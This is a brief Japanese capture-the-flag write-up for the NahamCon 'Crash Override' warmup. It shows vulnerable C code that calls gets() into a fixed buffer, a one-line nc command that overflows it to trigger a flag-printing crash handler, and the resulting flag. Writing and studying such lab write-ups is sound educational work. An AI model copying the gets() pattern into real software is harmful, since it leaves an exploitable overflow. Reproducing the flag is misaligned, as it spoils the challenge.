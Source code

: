 # Crash Override:Warmups:50pts
Remember, hacking is more than just a crime. It's a survival trait.  

**Connect with:**  
```
nc challenge.nahamcon.com 30864
```

**Attachments:** [crash_override.c](crash_override.c)　[Makefile](Makefile)　[crash_override](crash_override)  

# Solution
ソースやバイナリや接続先などが渡される。  
ソースを見るとmainは以下のようであった。  
```C
~~~
int main(void) {
    char buffer[2048];

    setbuf(stdin, NULL);
    setbuf(stdout, NULL);

    signal(SIGSEGV, win);

    puts("HACK THE PLANET!!!!!!");
    gets(buffer);

    return 0;
}
~~~
```
win関数ではflagが表示されるため、BOFを引き起こせばよいようだ。  
以下のように行う。  
```bash
$ python -c 'print("A"*3000)' | nc challenge.nahamcon.com 30864
HACK THE PLANET!!!!!!
flag{de8b6655b538a0bf567b79a14f2669f6}
```
flagが得られた。  

## flag{de8b6655b538a0bf567b79a14f2669f6}